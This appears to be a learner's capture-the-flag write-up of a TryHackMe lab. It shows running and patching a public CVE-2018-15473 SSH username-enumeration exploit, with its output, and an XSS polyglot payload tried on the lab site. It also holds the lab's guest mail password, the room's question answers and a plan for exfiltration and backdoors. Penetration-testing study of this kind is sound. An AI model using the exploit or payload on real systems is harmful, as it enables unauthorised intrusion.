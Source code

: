 # Exploring the Caverns Part Three 

Part three now, but I feeling the momentuum of progression. Plan of attack before attempting to even look to answering questions on the Task 8 Drop-Down is as follows:

CVE-2018-15473 to get as many credientals as possible before SMB enumeration with Enum4linuxand smbmap, exfiltrating share data and credientals. If possible try to get foothold and maintain persistance with couple backdoors(just try to emulate what I atleast read about and tried in various THM rooms).

[CVE-2018-15473](https://nvd.nist.gov/vuln/detail/CVE-2018-15473_) states:  
*"OpenSSH through 7.7 is prone to a user enumeration vulnerability due to not delaying bailout for an invalid authenticating user until after the packet containing the request has been fully parsed, related to auth2-gss.c, auth2-hostbased.c, and auth2-pubkey.c."*

[exploit](https://github.com/Rhynorater/CVE-2018-15473-Exploit)
```bash
python3 sshUsernameEnumExploit.py 
Traceback (most recent call last):
  File "sshUsernameEnumExploit.py", line 33, in <module>
    old_parse_service_accept = paramiko.auth_handler.AuthHandler._handler_table[paramiko.common.MSG_SERVICE_ACCEPT]
TypeError: 'property' object is not subscriptable

```
[issue:1](https://github.com/Rhynorater/CVE-2018-15473-Exploit/issues)

Find and replace all instances on \_handler_table with:
```bash
vim sshUsernameEnumExploit.py
:%s/_handler_table/_client_handler_table/gc
# Press a!
```
We then get:
```bash
python3 sshUsernameEnumExploit.py 
usage: sshUsernameEnumExploit.py [-h] [--port PORT] [--threads THREADS]
                                 [--outputFile OUTPUTFILE]
                                 [--outputFormat {list,json,csv}]
                                 (--username USERNAME | --userList USERLIST)
                                 hostname
sshUsernameEnumExploit.py: error: the following arguments are required: hostname
```
Find wordlists for usernames
```bash
root@ip-10-10-207-14:~/CVE-2018-15473-Exploit# locate usernames
/root/Rooms/BreachingAD/task3/usernames.txt
/usr/share/nmap/nselib/data/usernames.lst
/usr/share/wordlists/SecLists/Usernames/cirt-default-usernames.txt
/usr/share/wordlists/SecLists/Usernames/mssql-usernames-nansh0u-guardicore.txt
/usr/share/wordlists/SecLists/Usernames/top-usernames-shortlist.txt
/usr/share/wordlists/SecLists/Usernames/xato-net-10-million-usernames-dup.txt
/usr/share/wordlists/SecLists/Usernames/xato-net-10-million-usernames.txt
/var/lib/docker/overlay2/2d199c7783384d3e7736d37c79af646abb52d47edade257e9f6d0dd4192156c0/diff/usr/share/nmap/nselib/data/usernames.lst
/var/lib/gems/2.5.0/gems/metasploit-credential-3.0.4/spec/factories/metasploit/credential/blank_usernames.rb
/var/lib/gems/2.5.0/gems/metasploit-credential-3.0.4/spec/factories/metasploit/credential/usernames.rb
```
More Errors:
```bash
root@ip-10-10-207-14:~/CVE-2018-15473-Exploit# python3 sshUsernameEnumExploit.py --port 22 --threads 16 --outputFormat list --outputFile /root/sshoutTBPROD.txt --userList /usr/share/wordlists/SecLists/Usernames/top-usernames-shortlist.txt 10.200.102.219
Traceback (most recent call last):
  File "sshUsernameEnumExploit.py", line 204, in <module>
    main()
  File "sshUsernameEnumExploit.py", line 151, in main
    if not checkVulnerable():
  File "sshUsernameEnumExploit.py", line 94, in checkVulnerable
    result = checkUsername(user)
  File "sshUsernameEnumExploit.py", line 82, in checkUsername
    transport.auth_publickey(username, paramiko.RSAKey.generate(1024))
  File "/usr/local/lib/python3.6/dist-packages/paramiko/transport.py", line 1580, in auth_publickey
    return self.auth_handler.wait_for_response(my_event)
  File "/usr/local/lib/python3.6/dist-packages/paramiko/auth_handler.py", line 236, in wait_for_response
    raise e
  File "/usr/local/lib/python3.6/dist-packages/paramiko/transport.py", line 2055, in run
    ptype, m = self.packetizer.read_message()
  File "/usr/local/lib/python3.6/dist-packages/paramiko/packet.py", line 459, in read_message
    header = self.read_all(self.__block_size_in, check_rekey=True)
  File "/usr/local/lib/python3.6/dist-packages/paramiko/packet.py", line 301, in read_all
    x = self.__socket.recv(n)
ConnectionResetError: [Errno 104] Connection reset by peer

```

While this a very meta-room note: after using nuclei on many other THM boxes it seems like this a somewhat unintended path. To get username enumeration, but seeing as I has yet to use this exploit and for the better of script modification and OSCP. I'll give this attempt futher credence at slightly later point, after manual website enumeration. 

## Manual Enumeration

![Intial](Screenshots/Inital.png)

### TB-PROD

Throwback Hacks is a IT Security Company, based out of the UK that like most British people use Latin to sound important and also accept as currency for services in the American Dollar. 

Powered by w3.css

Users 
http://10.200.102.219/#team

Summer Winters - CEO
Jeff Davies - CFO
Hugh Gongo - CTO
Rikka Foxx - Lead Dev

http://10.200.102.219/#contact

 Great Britain
 Phone: +00 151515
 Email: hello@TBHSecurity.com - @TBHSecurity company email 

### TB-EMAIL

http://10.200.102.232/src/webmail.php
Using Guest credentials:

![TBH-Email](Screenshots/TBH-Email.png)

![Inbox-Sent](Screenshots/TBH-Email-Flag.png)

tbhguest@throwback.local - internal email.

![Contacts](Screenshots/Contacts-List.png)

On the contacts tab all the local email addresses are avaliable for a guest user to email. This would present a flaw in the attempt to maintain high stardards of confidentality. This mailing list is goldmine for APT groups and cyber-criminals without phishing. The CEO, CFO,  CTO internal email addresses are exposed.

In the inbox.Sent a "NotAShell.exe" has been sent to 

![Inbox-Sent](Screenshots/Inbox-Sent-Guest1.png)


## THB-FW

pFsense login

![pfSense](Screenshots/pfSenseLogin.png)


## Answers

Who is the CEO of Throwback Hacks? 
```{toggle}
Summers Winters

```
Where is the company located?
```{toggle}
Great Britain
```
What is the guest username on the mail server?
```{toggle}
tbhguest
```
What is the guest password on the mail server?
```{toggle}
WelcomeTBH1!
```

## Finally
I realised that this experience was still quite fenced in given the amount of clickables and user input. And seeing as I have yet to complete the Phishing rooms and that one the advertised parts of this is phishing. Before moving forward I tried:
xxs polyglot:
```js
jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */onerror=alert('THM') )//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert('THM')//>\x3e
```

Attempt:
![xxsPoly](Screenshots/xxsPoly-Prod-attempt.png)

Response 
![xxsResp](Screenshots/xxsPoly-Prod-attempt-response..png)

I broke the burp suite browser trying this so had to restart. Maybe something to return too.
